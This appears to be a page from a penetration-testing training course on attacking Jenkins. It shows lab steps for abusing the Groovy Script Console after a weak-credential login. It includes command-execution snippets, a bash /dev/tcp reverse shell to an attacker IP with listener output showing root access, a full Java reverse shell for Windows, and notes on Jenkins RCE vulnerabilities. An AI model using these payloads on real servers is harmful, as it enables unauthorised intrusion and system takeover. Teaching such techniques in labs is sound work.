

1. [Page 12](javascript: void\(0\);)
2. Attacking Jenkins

# Attacking Jenkins

---

We've confirmed that the host is running Jenkins, and it is configured with weak credentials. Let's check and see what type of access this will give us.

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/). The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime. This can be abused to run operating system commands on the underlying server. Jenkins is often installed in the context of the root or SYSTEM account, so it can be an easy win for us.

---

## Script Console

The script console can be reached at the URL `http://jenkins.inlanefreight.local:8000/script`. This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts, which are an object-oriented Java-compatible language. The language is similar to Python and Ruby. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

Using this script console, it is possible to run arbitrary commands, functioning similarly to a web shell. For example, we can use the following snippet to run the `id` command.

Code: groovy

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```



There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or [this](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) Metasploit module.

Code: groovy

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Running the above commands results in a reverse shell connection.

Attacking Jenkins

```shell-session
swmpdnky@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

Code: groovy

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.

Code: groovy

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

## Miscellaneous Vulnerabilities

Several remote code execution vulnerabilities exist in various versions of Jenkins. One recent exploit combines two vulnerabilities, CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) to achieve pre-authenticated remote code execution, bypassing script security sandbox protection during script compilation. Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file. This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins version 2.137.

Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vulnerability requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.

As we have seen, gaining access to Jenkins as an administrator can quickly lead to remote code execution. While several working RCE exploits exist for Jenkins, they are version-specific. At the time of writing, the current LTS release of Jenkins is 2.303.1, which fixes the two flaws detailed above. As with any application or system, it is important to harden Jenkins as much as possible since built-in functionality can be easily used to take over the underlying server.

---

## Shifting Gears

We've covered various ways that popular CMS' and servlet containers/software development applications can be abused to exploit both known vulnerabilities and built-in functionality. Let's shift our focus a bit to two well-known infrastructure/network monitoring tools: Splunk and PRTG Network Monitor.